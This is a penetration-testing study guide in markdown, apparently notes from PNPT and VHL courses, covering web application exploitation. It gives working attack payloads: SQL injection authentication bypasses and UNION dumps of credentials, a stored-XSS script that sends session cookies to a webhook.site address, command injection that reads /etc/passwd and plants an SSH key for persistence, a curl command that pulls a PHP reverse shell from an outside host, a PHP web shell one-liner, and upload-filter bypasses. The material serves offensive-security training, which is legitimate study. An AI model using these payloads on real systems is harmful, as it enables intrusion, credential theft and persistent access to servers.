




# Exploitation

- Whenever you find an application you should look for the version number. When you find that search for the exploit.

- If you don't know what something is then you need to do the research to understand what's going on better.

## A. Web Application

### A.1. Web Application: Enumeration
***

- Leverage [HTTP Enumeration](2_Enumeration.md#https-80-8080-443)
- Enumerte for subdomains. These will be useful in finding other locations that web applications may be stored.
    - Below is a series of commands you can run to enumerate subdomains.
    - Alternatively, you can run the [domainenum.sh](../tools/domainenum.sh) script (credit to Heath Adams).
    - test, dev, and admin are some examples of potentially juicy sub domains.

````bash
# 1. Enumerate subdomains
# Assetfinder: 
assetfinder {url.com}

# Amass:
amass enum -d {url}.com}

# 2. Check if subdomains are alive with httprobe
# First you'll need to store any found subdomains in a file.

cat {name of subdomain txt file} | httprobe

# 3. Capture screenshots of the webpage to immediately find once valuable on large amounts of domains.

gowitness single {https://url.com}

````

### A.2. Web Application: Exploitation (Notes from PNPT and VHL)
***

#### A.2.A. SQL Injection
- In an SQL injection attack, the attacker modifies existing SQL queries by inserting (or ‘injecting’) specifically crafted user input which fools the system into providing more access than intended by the developers of the web application.

- Always start by fuzzing the options to check for errors:
    - Use things like single and double quotes around values.
    - Try these with known good values.
    - Try logical operators like OR and terminators like ;# or -- -
        > **WARNING**
        > ***
        > - The examples listed below could change based on the type of SQL database in use and should not be copy and pasted with expectation of immediate success.
        >   - For examples see [this cheat sheet here](https://portswigger.net/web-security/sql-injection/cheat-sheet)

    - Try to determine the kind of SQL database.
    - Must determine the total amound of columns. Use 'null' until you find the right number of columns.

- STANDARD COMMANDS

|Command        |Description                                                     |
|:--------------|:---------------------------------------------------------------|
|USE            |select the DB you would like to use.                            |
|SELECT         |extracts data from a database                                   |
|UPDATE         |updates data in a database                                      |
|DELETE         |deletes data from a database                                    |
|INSERT INTO    |inserts new data into a database                                |
|CREATE DATABASE|creates a new database                                          |
|ALTER DATABASE |modifies a database                                             |
|CREATE TABLE   |creates a new table                                             |
|ALTER TABLE    |modifies a table                                                |
|DROP TABLE     |deletes a table #Be wary of messing with this                   |
|CREATE INDEX   |creates an index (search key)                                   |
|DROP INDEX     |deletes an index                                                |
|UNION          | Used to combine the result-set of two or more SELECT statements|

_A.2.A.1. Basic SQL Injection (Form Entry)_  

- Authentication bypass/dump all table values 
    - `test' or 1=1;#`

- If you receive an error try changing the limit. This will only display values up to the number listed. 
    - `test' or 1=1 LIMIT 1;#`

_A.2.A.2. SQL Injection - Union_

- These steps require some thinking on your part and can't just be copy pasted. You'll need to carefully review output and use some reasoning to determine what is standard to SQL and what is specific to the databse you're looking at. Often all of the data will appear as one and you won't be able to easily identify the information.

> **From VHL**
> ***
> The UNION operator in SQL is used to combine two or more result sets from SELECT statements. To use the UNION operator the query has to meet certain requirements:
>   - Each SELECT statement within UNION must have the same number of columns.
>   - The columns must have similar or compatible data types.
>   - The columns in each SELECT statement must be in the same order.

- Determine the number of columns. SQL won't typically dump information unless you have provided the right number of columns as values.
    - `{valid entry}' union select null, null, n*null...#`
    > **NOTE**
    > ***
    > - You can potentially use an invalid entry to figure out table names if you don't have a good known value.
    > - If the column is an integer and not a string you may need to use a number or null(int) to enumerate. Ex: `null,null(int),null,1,null`

- Determine version number of the database. THE VERSION NUMBER MUST REPLACE THE LAST SUCCESSFUL NULL VALUE, NOT ADDED TO PREVIOUS AMOUNTS OF NULL. THIS IS TRUE FOR ALL OTHER EXAMPLES BELOW.
    - `test' union select null,n*null,version()#`
    - You can dump other fields by replacing version() with:

        |Field to Enumerate|Description|
        |:-----------------|:----------|
        |@@hostname | Current Hostname |
        |@@tmpdir | Tept Directory |
        |@@datadir | Data Directory |
        |@@version | Version of DB |
        |@@basedir | Base Directory |
        |user() | Current User |
        |database() | Current Database |
        |version() | Version |
        |schema() | current Database |
        |UUID() | System UUID key |
        |current_user() | Current User|

- Determine the tables listed in the database.
    - `test' union select null,null,table_name from information_schema.tables#`

- Determine the full schema values.
    - `test' or 1=1 UNION SELECT n*null,table_schema, table_name from information_schema.tables ;#`

- Determine the column names listed in the database or specific table.
    - `test' union select null,null,column_name from information_schema.columns#`
    - `test' union select null,null,column_name from information_schema.columns where table_name='{table name}'# `

- Dump everything.
    - `test' union select table_schema,table_name,column_name from information_schema.columns where table_schema = database()` 

- **BEST OPTION** For easier viewing you can use the concat function and char(58) or ASCII for ':' to view the table and column information easier.
    -`test' union select null,null,concat(table_name,char(58),column_name) from information_schema.columns#`

- Pull specific information from a table.
    - `{valid entry you want info from like a user}' union select null,n*null, password from {table name};#`

- Pull multiple pieces of information from a table.
    -`{valid input}' union select null,null,null,concat(username,char(58),password) from injection0x03_users#`


_A.2.A.3. SQL Injection - URL_

1. Enumeration (Predefined value refers to the "?[value]=" seen in URLs when there are columns displayed) 

2. Check to see if the URL handles SQL by putting a "apostrophe" after the ?=' 

3. If its SQL check to see the amount of columns by launching Burp Suite, turn off Intercept and launch the URL against our Windows target. In the Proxy > HTTP history we should see the request we want to repeat. Send it to repeater and adjust the order by 1 value incrementally and search for error in the response window. Send each increased value request until you get a match for error in the response window EX: 1,2,n*#. The value 1 before you received the error is the amount of columns you have.

4. Enumerate even more by adding the following after the predefined value 
    > **NOTE**
    > ***
    > Like the examples above, for these to work the field has to replace one of the columns you identified. For example, doing 1,2,3,@@version when you previously identified only 3 colums would result in nothing of relevance displaying on the screen.

5. Combine methods used in union statements to view column output.

_A.2.A.4. SQL Injection - Blind_

- Blind SQL injection either gives us an error or successfully completes the request. Therefore, we can only ask the database yes or no questions to enumerate.

1. Test the application to determine regular functionality and what happens when it breaks.

2. Start burpsuite and repeat 1 to find 'Content-Length' and determine responses.

3. Attempt sql injection as listed above for enumeration and ensure that you are url encoding within burpsuite. Check things like username, password, and even the cookie. Your injection point may not just be the initial post request, but could be in redirected pages as well. The example taught in class used the get request that used the cookie.
> **NOTE**
> ***
> Always think about what the application is doing and outside the box how you can manipulate that information.

4. Enumerate yes or no with the [substring function](https://www.w3schools.com/sql/func_sqlserver_substring.asp).
    - Essentially, you're passing the request and iterating through alphanumeric characters until you get a true value (matched by either a successful content-length value or a word match on the page).
    - You can do this with intruder, SQLMap, or ffuf.
    - `{value}' and substring((select version()), 1, 1) = '8'#`
    - The command above would only return true if the first position of the version number is 8.
    - As you enumerate you can try things like: 
        - This is a proof of concept that returns true if you guess the password correctly. `' and substring((select password from injection0x02 where username = 'jeremy'), 1, 6) = 'jeremy'#`
        - Check column count. Iterate numbers till true. `' union select 1,2,3,4 limit 1#`
        - Determine length of password. `' and length((select password from injection0x02 where username = 'jeremy')) > 6#`

5. With length of password you can run ffuf to determine the password.
- Resources:
    - https://www.hackingarticles.in/comprehensive-guide-on-ffuf/
    - https://medium.com/@opabravo/manually-exploit-blind-sql-injection-with-ffuf-92881a199345

- Replace the password in burpsuite to 'FUZZ' and save to a text file. I'm calling mine brute.txt.



- You can create a password file if you know the length with:

````bash
cat /usr/share/wordlists/rockyou.txt | awk 'length($0) == 6' > pass.txt
#You can use any other seclist
````
- Run the command:

````bash
ffuf -request brute.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZ -ms 1027

#[-request] is the request from burpsuite. Using this options means we don't need to use a url.
#[-request-proto http] chooses the type
#[-ms] filters our response to the content-length we know is a good value.
#[-w pass.txt:FUZZ] tells ffuf which wordlist to use for which parameter. For this example i just tested with known values.
````
- You will see from the results that SQL is not case sensitive so you'll need to test different values for success.



#### A.2.B. Cross-Site Scripting (XSS)
- Cross-site scripting (or XSS) is a vulnerability that allows an attacker to inject malicious client-side scripts into a webpage. With this kind of attack the attacker does not target the victim directly but uses a vulnerable webpage to deliver the payload and take control of the interaction between the webpage and the visitor.

- Three kinds of XSS
    1. Reflected
        > **VHL Definition**
        > ***
        > Reflected XSS is also known as a non-persistent XSS which means that the XSS payload **originates from a user request**. These types of vulnerabilities occur when a request contains user input that is included in the response of the HTTP request, for example a line of JavaScript that is executed by the web browser when the webpage is rendered. The user input we’re talking about can be anything that is in some way submitted by a user. This can be data that is **manually entered by the user in a web form but also values that are submitted in the background** that attackers can somehow control and tamper with, such as HTTP headers. XSS vulnerabilities are commonly found in **search functions on websites or in the username and password values in a login form (or any other form field)**. Submitting a web form with user input generates an HTTP request and a response by the server. The response received will normally consist of a page showing the search results, but if those results also show the keywords searched, this can be an indication of an XSS vulnerability.
        > 
    2. Stored
        > **VHL Definition**
        > ***
        > Stored cross-site scripting, or persistent XSS, occurs when the **user input is permanently stored in a database and later included in a webpage**. With stored XSS the malicious script originates from a database (or some other data source) rather than from a user request. Instead of having to cause a victim to submit a request with the malicious script as in reflected XSS, the attacker injects the client-side script directly in the database. **When an unsuspecting victim visits a page that retrieves the malicious script from the database and inserts it in the webpage, the malicious script is executed by the victim’s browser**. **Discussion boards, comment fields, contact forms and account profiles** are all examples of functionality that store user input in a database. The result of both reflected and stored XSS is generally the same, but stored XSS can target a far larger audience at once. For example, when every page on a website retrieves the malicious script from the database, every visitor to the website will be affected.
        > 
    3. Document Object Model (DOM)-Based
        > **PNPT Definition**
        > ***
        > Client side has vulnerable javascript that uses untrusted inputs instead of having a vulnerability server side. This looks similar to a reflected XSS, but actions happen entirely locally.
        > What is DOM? https://portswigger.net/web-security/dom-based

_A.2.B.1. DOM Based_

- Start by fuzzing:
    - Test normal functionallity.
    - Test for javascript entries
        - Standard used in stored `<script>prompt(1)</script>`
        - Fails to load image results in action ``
        - I can get a connection, but don't know what to do with it yet? Maybe use SETools to host a malicious redirect webpage.

_A.2.B.2. Stored_

- Use firefox containers to test storage.
- Regular fuzzing worked. Able to see own users cookie with `<script>alert(document.cookie)</script>`
- To view the cookie:
    1. Go to webhook.site to get a valid url.
    2. Add this payload to the known stored XSS location. Case sensitivity matters:
        - `<script>var i=new Image;i.src="{webhook.site address}/?"+document.cookie;</script>`

#### A.2.C. Command Injection
- Application on the server is vulnerable by allowing execution of arbitrary data.
- For more information: https://appsecexplained.gitbook.io/appsecexplained/common-vulns/injection/command-injection

- [ ] Determine the technology stack: Which operating system and server software are in use? 

- [ ] Identify potential injection points: URL parameters, form fields, HTTP headers, etc. 

- [ ]Test for simple injections with special characters like ;, &&, ||, and |. 

- [ ] Test for injection within command arguments. 

- [ ] Test for blind command injection, where output is not returned in the response. If output isn't directly visible, try creating outbound requests (e.g. using ping or curl). 

- [ ] Try to escape from any restriction mechanisms, like quotes or double quotes. 

- [ ] Test with a list of potentially dangerous functions/methods (like exec(), system(), passthru() in PHP, or exec, eval in Node.js). 

- [ ] Test for command injection using time delays (ping -c localhost). 

- [ ] Test for command injection using &&, ||, and ;. 

- [ ] Test with common command injection payloads, such as those from PayloadsAllTheThings. 

- [ ] If there's a filter in place, try to bypass it using various techniques like encoding, command splitting, etc.

- Check [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) for reverse shells.

- Use `ctrl + u` to view output of your commands easier.

- Just because a command doesn't work, doesn't mean the process doesn't work. Look for available programs with which like `;which python3`. Also, try to figure out how the injection point is processing your commands to figure out the right way of formatting your entry.

````bash
# Check for command injection with 
;ls -lisa

#sometimes you may need to ensure the functionallity of the application runs before you pass your code. As in completing the ask like a normal user.

; cat /etc/passwd
#To run two commands you would run && this says if the first one works run the second one. Use || if you want the second one to run if the first one fails. Run ; to say run the first, and if the first one fails or succeeds run the second command.
; netstat -antp
#Now you can run commands like you’re on the server. To see a cleaner version of the output go to view source.
#You could also run a keygen and store it on a malicious server.
maliciousbox$ ssh-keygen -t rsa -b 4096 #Make sure you delete an existing key first.
maliciousbox$ Leave everything blank and hit enter. It will be stored in /home/.ssh/id_rsa
#Cat your id_rsa pub and copy everything in that file.
targetrmachine$ ;ls -la #see if they have a .ssh directory.
targetrmachine$ ;mkdir /var/www/.ssh #Use the home directory we found from passwd file.
targetrmachine$ ; ls -la #Confirm it exists.
targetrmachine$ ;echo ‘copied info from key’ > /var/www/.ssh/authorized_keys #You can find this info from running a “man” on ssh and “/key” to search for entries with key. #It may error out if you use the double quotes so use single instead.
maliciousbox$ ssh www-data@{ip of site}
````

_A.2.C.1. Blind_
1. Run through a list of the optional tests above.
2. Try an outofband technique which is where you pass the command to another site you have access to.

````bash
https://webhook.site/{unique address}?`{command}`
````

3. Go to the site to view the results.

- You can also set up a python server to test your results. While you may not be able to see the results of the command, attempting different means of accessing the command injection as some characters may be filtered out.

- Try things like back-ticks as listed above or new lines or ambersands &&

`https://tcm-sec.com \n wget 192.168.110.129:8000/test`

`https://tcm-sec.com && curl 192.168.110.129:8000/linphprevshell.php > /var/www/html/rev.php`

- You may also see the injection point in the URL as noted in VHL.

[](images/url_RCE.png)

#### A.2.D. File Upload

- If you see you can upload files try uploading the PHP Rev Shell you may need to use burpsuite to overcome certain obstables such as 'content-type' restrictions. Reference the VHL manual. 

- You may also need to insert the one line code for RCE into the properties section of an image, another file, or the burpsuite command. This gets around issues in which the server isn't accepting your reverse shell script.

`<?php system($_GET['cmd']); ?>`

[](images/burpsuite_upload_RCE.png)

[](images/burpsuite_upload_RCE_Results.png)

    - Client side restriction:
        - Change your file name to requested type.
        - Open burpsuite and upload the file.
        - In the request, change the name of your file to php.
    - Server side restriction:
        1. Try adding a null byte to burpsuite `file.php%00.png`
        2. Try changing the extension type.
        3. If the file is checking for magic bytes:
            - Upload a png file but copy the magic bytes
            - Upload the malicious shell, copy magic bytes and change name.
            - You may need to strip magic bytes after inserting RCE code.
    - For convenience you can keep repeater up, but intercept off to keep making changes to your code.

- Once uploaded you'll just need to navigate to the directory in the URL. 
    - To find the directory fuzz using either ffuf, gobuster or other tools.

- Look for other ways you can upload, whether through FTP or something else, if you find a location that has files uploaded. 

#### A.2.E. Authentication Attack

- https://appsecexplained.gitbook.io/appsecexplained/common-vulns/authentication

_A.2.E.1. Brute Force_

+++++++++++++

- Use Burpsuite Intruder or ffuf and a wordlist to brute force the password.

````bash
ffuf -request brute.txt -request-proto http -w {wordlist}:FUZZ -fs 1027

#[-request] is the request from burpsuite. Using this options means we don't need to use a url. Put FUZZ in all caps where you want the word lists to try.
#[-request-proto http] chooses the type
#[-fs] filters our response to the content-length we know is a good value. This should be filtering out the content-length for failed logins.
#[-w pass.txt:FUZZ] tells ffuf which wordlist to use for which parameter. For this example i just tested with known values.
````

- Use burpsuite for other functionallity like MFA to understand what is happening and if you can break it. Like using replaying the MFA token for different users, etc.

- Use the clusterbomb technique listed above if you are attacking username AND passwords.

_A.2.E.2. Bypassing MFA_
- https://github.com/dafthack/MFASweep

#### A.2.F. External XML Entity (XXE) Injection

- Whenver there is a spot to upload XML you can attempt this attack.
- https://appsecexplained.gitbook.io/appsecexplained/common-vulns/injection/xxe-xml-external-entity-injection
- Use [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#exploiting-xxe-to-retrieve-files) to determine various payloads you can upload to get an attack.

#### A.2.G. Insecure Direct Object Reference (IDOR)

- Find a point where you can manipulate an ID and change it. Such as the URL.


## B. Microsoft
- TrevorSpray:https://github.com/blacklanternsecurity/TREVORspray
- Recommended launching AWS instances and using those IPs during your trevor spray.
- Try seasons and years.
- Take microsoft logins you find and login to portal.azure.com to get active directory information.